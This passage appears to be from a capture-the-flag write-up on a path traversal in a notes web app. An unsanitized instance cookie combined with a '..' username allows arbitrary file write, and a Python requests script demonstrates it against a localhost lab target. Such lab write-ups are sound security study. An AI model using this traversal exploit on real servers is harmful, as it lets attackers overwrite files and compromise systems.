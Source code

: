 At step [0], the app joins `"/app/instances"` with our `instance_id`. This normally limits where files can go. But since `instance_id` isn't sanitized, we can use `../` to break out of that folder.

At step [1], it adds a `"notes"` directory to the path. That might seem like a blocker.

At [2], it adds the `username`, which *is* sanitized — but it still allows dots (`.`), so we can set it to `".."` to go up one folder.

At [3], it adds the `filename`, which only allows alphanumerics and slashes, but that’s fine — we can control that too.

So if we upload a file with:

- `instance_id = "../../tmp"`
- `username = ".."`
- `filename = "/test"`

Then the final path the server writes to will be:

```
"/app/instances" + "../../tmp" + "/notes" + "/.." + "/test"
→ /app/instances/../../tmp/notes/../test
→ /tmp/test
```

Boom — we wrote to `/tmp/test`, even though we were supposed to be limited to `/app/instances/[your id]/notes/[username]/`.

`ARBITRARY FILE WRITE`

let’s check that are we able to do this!!

```python
import requests
import os

HOST = "http://localhost:1337"

session = requests.Session()

def register(username, password):
    request = session.post(HOST + "/api/register", json={
        "username": username,
        "password": password,
    })

def login(username, password):
    request = session.post(HOST+"/api/login", json={
        "username": username,
        "password": password,
    })

def upload(filename, content):
    request = session.post(HOST+"/api/notes/upload", files={
        "file": (filename, content)
    })

def arbitrary_file_write(path, content):
    username= ".."
    password= "password"
    directory, filename= os.path.dirname(path), os.path.basename(path)
    session.cookies.set("INSTANCE", f"../../../../../..{directory}")
    register(username, password)
    login(username, password)
    upload(filename, content)

if __name__ == "__main__":
    arbitrary_file_write("/tmp/test", b"Hello World!")
```
